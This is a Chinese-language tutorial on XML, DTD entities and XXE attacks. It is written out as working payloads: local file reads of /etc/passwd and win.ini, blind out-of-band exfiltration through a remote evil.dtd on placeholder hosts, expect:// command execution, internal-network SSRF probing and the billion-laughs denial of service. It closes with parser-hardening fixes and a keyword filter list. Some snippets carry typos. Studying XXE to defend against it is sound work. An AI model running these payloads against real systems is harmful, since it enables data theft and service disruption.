





# 什么是XML



## 定义

- XML用于标记电子文件使其具有结构性的标记语言，可以用来标记数据、定义数据类型，是一种允许用户对自己的标记语言进行定义的源语言。XML文档结构包括XML声明、DTD文档类型定义（可选）、文档元素。

## 特点

1. 仅仅只是纯文本，不会做任何事情
2. 可以发明自己的标签
3. 存储数据

## 文档结构

- XML文档结构包括XML声明、DTD文档类型定义（可选）、文档元素。

```xml
<!--XML声明-->
<?xml version="1.0"?>
<!--文档类型定义-->
<!DOCTYPE note [  <!--定义此文档是 note 类型的文档-->
<!ELEMENT note (to,from,heading,body)>  <!--定义note元素有四个元素-->
<!ELEMENT to (#PCDATA)>     <!--定义to元素为”#PCDATA”类型-->
<!ELEMENT from (#PCDATA)>   <!--定义from元素为”#PCDATA”类型-->
<!ELEMENT head (#PCDATA)>   <!--定义head元素为”#PCDATA”类型-->
<!ELEMENT body (#PCDATA)>   <!--定义body元素为”#PCDATA”类型-->
]]]>
<!--文档元素-->
<note>
<to>Dave</to>
<from>Tom</from>
<head>Reminder</head>
<body>You are a good man</body>
</note>
```

## DTD

- 内部声明DTD

<!DOCTYPE 根元素 [元素声明]>

- 引用外部DTD

<!DOCTYPE 根元素 SYSTEM "文件名">

- 内外部DTD文档结合：

<!DOCTYPE 根元素 SYSTEM "DTD文件路径" [定义内容]>

## DTD中的一些重要的关键字

- DOCTYPE（DTD的声明）
- ENTITY（实体的声明）
- SYSTEM、PUBLIC（外部资源申请）

## 实体类别介绍

实体主要分为一下四类

- 内置实体 (Built-in entities)
- 字符实体 (Character entities)
- 通用实体 (General entities)
- 参数实体 (Parameter entities)

参数实体用%实体名称申明，引用时也用%实体名称

其余实体直接用实体名称申明，引用时用&实体名称

参数实体只能在DTD中申明，DTD中引用

其余实体只能在DTD中申明，可在xml文档中引用 

 

# DTD 实体声明

## 内部实体声明

<!ENTITY 实体名称 “实体的值">

- 一个实体由三部分构成:&符号, 实体名称, 分号 (;)
- 这里&不论在GET还是在POST中都需要进行URL编码，因为是使用参数传入xml的，&符号会被认为是参数间的连接符号，示例：

<!DOCTYPE foo [<!ELEMENT foo ANY > <!ENTITY xxe "Thinking">]> <foo>&xxe;</foo>

## 外部实体声明

<!ENTITY 实体名称 SYSTEM “URI/URL">

- XML中对数据的引用称为实体，实体中有一类叫外部实体，用来引入外部资源，有SYSTEM和PUBLIC两个关键字，表示实体来自本地计算机还是公共计算机，外部实体的引用可以借助各种协议，比如如下的三种：

1. file:///path/to/file.ext
2. [http://url](http://urlphp://filter/read=convert.base64-encode/resource=conf.php)
3. [php://filter/read=convert.base64-encode/resource=conf.php](http://urlphp://filter/read=convert.base64-encode/resource=conf.php)

外部引用可支持http，file等协议，不同的语言支持的协议不同，但存在一些通用的协议


外部实体的默认协议

示例：

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xdsec [
<!ELEMENT methodname ANY >
<!ENTITY xxe(实体引用名) SYSTEM "file:///etc/passwd"(实体内容) >]>
<methodcall>
<methodname>&xxe;</methodname>
</methodcall>
// 这种写法则调用了本地计算机的文件/etc/passwd，XML内容被解析后，文件内容便通过&xxe被存放在了methodname元素中，造成了敏感信息的泄露。
```

## 参数实体声明

<!ENTITY % 实体名称 “实体的值">    or    <!ENTITY % 实体名称 SYSTEM “URI">

示例：

```xml
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY  % xxe SYSTEM "http://xxx.xxx.xxx/evil.dtd" >
%xxe;]>
<foo>&evil;</foo>
外部evil.dtd中的内容。
<!ENTITY evil SYSTEM “file:///c:/windows/win.ini” >
```

## 引用公共实体

<!ENTITY 实体名称 PUBLIC "public_ID" "URI">


# 什么是XML外部实体攻击?

- 有了XML实体，关键字 "SYSTEM" 会令XML解析器从URI中读取内容，并允许它在XML文档中被替换
- 攻击者可以通过实体将他自定义的值发送给应用程序，然后让应用程序去呈现
- 攻击者强制XML解析器去访问攻击者指定的资源内容(可能是系统上本地文件亦或是远程系统上的文件)

下面的代码将获取系统上folder/file的内容并呈献给用户

 

Code1

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE a [<!ENTITY passwd SYSTEM "file:///etc/passwd">]>
<foo>
        <value>&passwd;</value>
</foo>
```

Code2

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE b [<!ENTITY entityex SYSTEM "file:///folder/file">]>
<foo>
        <value>&entityex;</value>
</foo>
```

Code3

```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
```

Code4

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=index.php" >
]>
<root>
<name>&xxe;</name>
</root>
```

- 以Code1代码为例
  - XML外部实体 "passwd" 被赋予的值为：file:///etc/passwd
  - 在解析XML文档的过程中，实体"passwd"的值会被替换为URI(file:///etc/passwd)内容值(也就是passwd文件的内容)
  - 关键字"SYSTEM"会告诉XML解析器，"passwd"实体的值将从其后的URI中读取。

# 怎么甄别一个XML实体攻击漏洞?

- 最直接的回答就是： 甄别那些接受XML作为输入内容的端点
- 但是有时候，这些端点可能并不是那么明显
  - 比如，一些仅使用JSON去访问服务的客户端)。在这种情况下，渗透测试人员就必须尝试不同的测试方式
  - 比如修改HTTP的请求方法，修改Content-Type头部字段等等方法，然后看看应用程序的响应，看看程序是否解析了发送的内容，如果解析了，那么则可能有XXE攻击漏洞。
    - 例如wsdl（web服务描述语言）。或者一些常见的采用xml的java服务配置文件（spring，struts2）。不过现实中存在的大多数XXE漏洞都是blind，即不可见的，必须采用带外通道进行返回信息的记录，这里简单来说就是攻击者必须具有一台具有公网ip的主机。

 # xxe漏洞检测

1. 第一步先检测XML是否会被成功解析：

```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE ANY [ 
<!ENTITY name "my name is nMask">]
<root>&name;</root>
// 如果页面输出了my name is nMask，说明xml文件可以被解析
```

2. 第二步检测服务器是否支持DTD引用外部实体：

 ```xml
<?xml version=”1.0” encoding=”UTF-8”?> 
<!DOCTYPE ANY [ 
<!ENTITY % name SYSTEM "http://localhost/index.html"> 
%name; 
]>
// 可通过查看自己服务器上的日志来判断，看目标服务器是否向你的服务器发了一条请求index.html的请求
 ```


- 从PHP代码层面上
- 最开始，引入一个file_get_contents函数，将整个XML数据读入data字符串中
- 然后交给php的xml解析函数simplexml_load_string()解析，解析后的数据赋给xml变量。


- 这一数据即XML字符串中使用的对象(或者说根元素)的数据，并echo输出出来。

```php
<?php
$data = file_get_contents('php://input');  //获取提交的XML数据 php://input这种协议是获取POST提交的数据流
$xml = simplexml_load_string($data);  // 交给PHP的XML解析函数
echo $xml->name;
?>
```

# xxe漏洞的危害

- xxe漏洞的危害有很多，比如可以文件读取、命令执行、内网端口扫描、攻击内网网站、发起dos攻击等，这里就读取任意文件的利用方式进行测试。

## 读取任意文件

### 有回显情况

```php
<?php
$xml = <<<EOF
<?xml version = "1.0"?>
<!DOCTYPE ANY [
    <!ENTITY f SYSTEM "file:///etc/passwd">
]>
<x>&f;</x>
EOF;
$data = simplexml_load_string($xml);
print_r($data);
?>
```

- 访问XML.php可以读取etc/passwd文件内容

- 该CASE是读取/etc/passwd，有些XML解析库支持列目录，攻击者通过列目录、读文件，获取帐号密码后进一步攻击，如读取tomcat-users.xml得到帐号密码

  后登录tomcat的manager部署webshell。

 

实例展示：

 

可以使用如下的两种方式进行XXE注入攻击。

 ```xml
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY  xxe SYSTEM "file:///c:/windows/win.ini" >]>
<foo>&xxe;</foo>
 ```

```xml
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY  % xxe SYSTEM "http://xxx.xxx.xxx/evil.dtd" >
%xxe;]>
<foo>&evil;</foo>
```

外部evil DTD中的内容

```xml
<!ENTITY evil SYSTEM “file:///c:/windows/win.ini” >
```




当然也可以进行内网站点的入侵。

 



- 以上任意文件读取能够成功，除了DTD可有引用外部实体外，还取决于有输出信息，即有回显。那么如果程序没有回显的情况下，该怎么读取文件内容呢？需要使用blind xxe漏洞去利用。

 

### 无回显的情况

#### blind xxe漏洞方案1：

- 对于传统的XXE来说，要求攻击者只有在服务器有回显或者报错的基础上才能使用XXE漏洞来读取服务器端文件，如果没有回显则可以使用Blind XXE漏洞来构建一条带外信道提取数据。

1. 创建test.php写入以下内容：

```php
<?php 
file_put_contents("test.txt", $_GET['file']) ; 
?>
```

2. 创建index.php写入以下内容：

```php
<?php 
$xml=<<<EOF 
<?xml version="1.0"?> 
<!DOCTYPE ANY[ 
<!ENTITY % file SYSTEM "file:///C:/test.txt"> 
<!ENTITY % remote SYSTEM "http://localhost/test.xml"> 
%remote;
%all;
%send; 
]> 
EOF; 
$data = simplexml_load_string($xml) ; 
echo "<pre>" ; 
print_r($data) ; 
?>
```

3. 创建test.xml并写入以下内容：

```xml
<!ENTITY % all "<!ENTITY % send SYSTEM 'http://localhost/test.php?file=%file;'>">
```

- 当访问http://localhost/index.php, 存在漏洞的服务器会读出text.txt内容，发送给攻击者服务器上的test.php，然后把读取的数据保存到本地的test.txt中。

#### blind xxe漏洞方案2：

- 可以将文件内容发送到远程服务器，然后读取。

```xml
<?xml verstion="1.0" encoding="utf-8"?>
<!DOCTYPE a[
        <!ENTITY % f SYSTEM "http://yourhost/evil.dtd">
        %f;
]>
<a>&b;</a>
$data = simplexml_load_string($xml);
print_r($data);
```


远程服务器的evil DTD文件内容

```xml
<!ENTITY b SYSTEM "file:///etc/passwd">
```


#### blind xxe漏洞方案3：

- 可以使用外带数据通道提取数据，先使用php://filter获取目标文件的内容，然后将内容以http请求发送到接受数据的服务器(攻击服务器)xxx.xxx.xxx。

 

```xml
<?xml version=”1.0”?>
<!DOCTYPE ANY [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=./target.php"> # /etc/issue
<!ENTITY % dtd SYSTEM "http://xxx.xxx.xxx/evil.dtd">
%dtd;
%send;
]>
```


evil.dtd的内容，内部的%号要进行实体编码成&#x25。


```xml
<!ENTITY % all
“<!ENTITY &#x25; send SYSTEM ‘http://xxx.xxx.xxx/?%file;’>”
>
%all;
```


有报错直接查看报错信息。

无报错需要访问接受数据的服务器中的日志信息，可以看到经过base64编码过的数据，解码后便可以得到数据。



 



 

**这里列举几个案例：**

 

**恶意引入外部实体1：**

XML内容

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a [
      <!ENTITY b SYSTEM "file:///etc/passwd">
]>
<aaa>&b;</aaa>
```

**恶意引入外部实体2：**

XML内容

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a [
     <!ENTITY % d SYSTEM "http://yourhost/evil.dtd">
     %d;
]>
<aaa>&b;</aaa>
```


DTD文件（evil.dtd）内容：

```xml
<!ENTITY b SYSTEM "file:///etc/passwd">
```


**恶意引入外部实体3**

XML内容

```xml
<?xml verstion="1.0" encoding="utf-8"?>
<!DOCTYPE a SYSTEM "http://yourhost/evil.dtd">
]>
<c>&b;</c>
```

DTD文件内容

```xml
<!ENTITY b SYSTEM "file:///etc/passwd">
```


**恶意引入外部实体(4)**

```xml
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY  xxe SYSTEM "file:///c:/windows/win.ini" >]>
<foo>&xxe;</foo>
```

## 命令执行

- php环境下，xml命令执行要求php装有expect扩展。而该扩展默认没有安装。

```php
<?php
$xml = <<<EOF
<?xml version = "1.0"?>
<!DOCTYPE ANY [
    <!ENTITY f SYSTEM "except://ls"> # id
]>
<x>&f;</x>
EOF;
$data = simplexml_load_string($xml);
print_r($data);
?>
```

该CASE是在安装expect扩展的PHP环境里执行系统命令，其他协议也有可能可以执行系统命令。

 

## 内网探测/SSRF

- 由于xml实体注入攻击可以利用http://协议，也就是可以发起http请求。可以利用该请求去探查内网，进行SSRF攻击。

 ```php
<?php
$xml = <<<EOF
<?xml version = "1.0"?>
<!DOCTYPE ANY [
    <!ENTITY f SYSTEM "http://192.168.1.1:80/">
]>
<x>&f;</x>
EOF;
$data = simplexml_load_string($xml);
print_r($data);
?>
 ```


## 攻击内网网站

 

该CASE是攻击内网struts2网站，远程执行系统命令。

 

## 拒绝服务攻击

2. To crash the server / Cause denial of service:

 

```xml
 <?xml version="1.0"?>
 <!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
 ]>
 <lolz>&lol9;</lolz>
```


上面样例代码2中的XXE漏洞攻击就是著名的’billion laughs’ 攻击。

(https://en.wikipedia.org/wiki/Billion_laughs)，该攻击通过创建一项递归的 XML 定义，在内存中生成十亿个”Ha!”字符串，从而导致 DDoS 攻击。

原理为：构造恶意的XML实体文件耗尽可用内存，因为许多XML解析器在解析XML文档时倾向于将它的整个结构保留在内存中，解析非常慢，造成了拒绝服务器攻

击。除了这些，攻击者还可以读取服务器上的敏感数据，还能通过端口扫描，获取后端系统的开放端口。

 # XXE漏洞修复与防御

- xxe漏洞存在是因为XML解析器解析了用户发送的不可信数据。然而，要去校验DTD(document type definition)中SYSTEM标识符定义的数据，并不容易，也

  不大可能。大部分的XML解析器默认对于XXE攻击是脆弱的。因此，最好的解决办法就是配置XML处理器去使用本地静态的DTD，不允许XML中含有任何自己

  声明的DTD。通过设置相应的属性值为false，XML外部实体攻击就能够被阻止。因此，可将外部实体、参数实体和内联DTD 都被设置为false，从而避免基于

  XXE漏洞的攻击。

## 方案一

- 使用开发语言提供的禁用外部实体的方法

- PHP

- - libxml_disable_entity_loader(true);

 

- JAVA

- - DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
  - dbf.setExpandEntityReferences(false);

 

- Python

- - from lxml import etree
  - xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))

 

## 方案二

- 过滤用户提交的XML数据

过滤关键词：<!DOCTYPE 和 <!ENTITY，或者 SYSTEM 和 PUBLIC 